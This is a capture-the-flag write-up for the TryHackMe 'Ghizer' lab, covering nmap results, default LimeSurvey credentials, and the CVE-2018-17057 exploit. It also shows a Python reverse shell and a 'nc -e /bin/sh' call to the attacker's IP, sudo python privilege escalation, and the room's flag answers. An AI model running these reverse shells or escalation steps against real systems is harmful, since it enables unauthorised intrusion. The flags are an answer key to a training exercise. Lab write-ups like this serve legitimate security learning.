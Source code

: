 
# Ghizer

lucrecia has installed multiple web applications on the server.

[Ghizer](https://tryhackme.com/room/ghizerctf)

## Topic's

- Network Enumeration
- Security Misconfiguration
- CVE-2018-17057 - LimeSurvey < 3.16
- Stored Passwords & Keys
- Abusing SUID/GUID

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Flag

Are you able to complete the challenge?
The machine may take up to 5 minutes to boot and configure

```
kali@kali:~/CTFs/tryhackme/Ghizer$ sudo nmap -A -sS -sC -sV -O 10.10.106.146
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-11 17:18 CEST
Nmap scan report for 10.10.106.146
Host is up (0.032s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, RTSPRequest, X11Probe:
|     220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
|     Please login with USER and PASS.
|   Kerberos, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|_    220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: LimeSurvey http://www.limesurvey.org
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title:         LimeSurvey
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 5.4.2
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Ghizer &#8211; Just another WordPress site
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-07-23T17:27:31
|_Not valid after:  2030-07-21T17:27:31
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.80%I=7%D=10/11%Time=5F83224D%P=x86_64-pc-linux-gnu%r(NUL
SF:L,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x2
SF:03\.0\.3\)\n")%r(GenericLines,58,"220\x20Welcome\x20to\x20Anonymous\x20
SF:FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x20with\
SF:x20USER\x20and\x20PASS\.\n")%r(Help,58,"220\x20Welcome\x20to\x20Anonymo
SF:us\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x2
SF:0with\x20USER\x20and\x20PASS\.\n")%r(GetRequest,58,"220\x20Welcome\x20t
SF:o\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please
SF:\x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(HTTPOptions,58,"220\x2
SF:0Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n
SF:530\x20Please\x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(RTSPReque
SF:st,58,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x
SF:203\.0\.3\)\n530\x20Please\x20login\x20with\x20USER\x20and\x20PASS\.\n"
SF:)%r(RPCCheck,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20
SF:\(vsFTPd\x203\.0\.3\)\n")%r(DNSVersionBindReqTCP,58,"220\x20Welcome\x20
SF:to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Pleas
SF:e\x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(DNSStatusRequestTCP,5
SF:8,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\
SF:.0\.3\)\n530\x20Please\x20login\x20with\x20USER\x20and\x20PASS\.\n")%r(
SF:SSLSessionReq,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x2
SF:0\(vsFTPd\x203\.0\.3\)\n")%r(TerminalServerCookie,33,"220\x20Welcome\x2
SF:0to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n")%r(TLSSes
SF:sionReq,33,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsF
SF:TPd\x203\.0\.3\)\n")%r(Kerberos,33,"220\x20Welcome\x20to\x20Anonymous\x
SF:20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n")%r(SMBProgNeg,33,"220\x20We
SF:lcome\x20to\x20Anonymous\x20FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n")%
SF:r(X11Probe,58,"220\x20Welcome\x20to\x20Anonymous\x20FTP\x20server\x20\(
SF:vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x20with\x20USER\x20and\x20P
SF:ASS\.\n")%r(FourOhFourRequest,58,"220\x20Welcome\x20to\x20Anonymous\x20
SF:FTP\x20server\x20\(vsFTPd\x203\.0\.3\)\n530\x20Please\x20login\x20with\
SF:x20USER\x20and\x20PASS\.\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/11%OT=21%CT=1%CU=43159%PV=Y%DS=2%DC=T%G=Y%TM=5F8322
OS:F6%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=7%ISR=106%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   30.98 ms 10.8.0.1
2   31.23 ms 10.10.106.146

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 178.89 seconds
```

[http://10.10.106.146/index.php/admin/authentication/sa/login](http://10.10.106.146/index.php/admin/authentication/sa/login)

[https://survey-consulting.com/how-to-restore-a-limesurvey-password/](https://survey-consulting.com/how-to-restore-a-limesurvey-password/)

`admin:password`

[http://10.10.106.146/installer/](http://10.10.106.146/installer/)

[LimeSurvey < 3.16 - Remote Code Execution ](https://www.exploit-db.com/exploits/46634)

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

```php
'username' => 'Anny',
                        'password' => 'P4$W0RD!!#S3CUr3!',
```

```
https://10.10.106.146/?devtools
```

`stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()`

`print new java.lang.Runtime().exec("nc 10.8.106.222 1337 -e /bin/sh")`

```
kali@kali:~/CTFs/tryhackme/Ghizer$ nc -nvlp 1337
listening on [any] 1337 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.106.146] 40546
python -c "import pty; pty.spawn('/bin/bash')"
veronica@ubuntu:~$ cd ~
cd ~
veronica@ubuntu:~$ ls
ls
base.py  Documents  examples.desktop  Music     Public       Templates  Videos
Desktop  Downloads  ghidra_9.0        Pictures  __pycache__  user.txt
veronica@ubuntu:~$ cat user.txt
cat user.txt
THM{EB0C770CCEE1FD73204F954493B1B6C5E7155B177812AAB47EFB67D34B37EBD3}
veronica@ubuntu:~$
```

`echo 'import pty; pty.spawn("/bin/bash")' >> /home/veronica/base.py`

```
veronica@ubuntu:~$ rm -rf base.py
rm -rf base.py
veronica@ubuntu:~$ echo 'import pty; pty.spawn("/bin/bash")' >> /home/veronica/base.py
<port pty; pty.spawn("/bin/bash")' >> /home/veronica/base.py
veronica@ubuntu:~$ sudo /usr/bin/python3.5 /home/veronica/base.py
sudo /usr/bin/python3.5 /home/veronica/base.py
root@ubuntu:~# whoami
whoami
root
root@ubuntu:~# cd /root
cd /root
root@ubuntu:/root# ls
ls
Lucrecia  root.txt
root@ubuntu:/root# cat root.txt
cat root.txt
THM{02EAD328400C51E9AEA6A5DB8DE8DD499E10E975741B959F09BFCF077E11A1D9}
root@ubuntu:/root#
```

1. What are the credentials you found in the configuration file? example: user:password

`Anny:P4$W0RD!!#S3CUr3!`

2. What is the login path for the wordpress installation?

`/?devtools`

3. Compromise the machine and locate user.txt

`THM{EB0C770CCEE1FD73204F954493B1B6C5E7155B177812AAB47EFB67D34B37EBD3}`

4. Escalate privileges and obtain root.txt

`THM{02EAD328400C51E9AEA6A5DB8DE8DD499E10E975741B959F09BFCF077E11A1D9}`
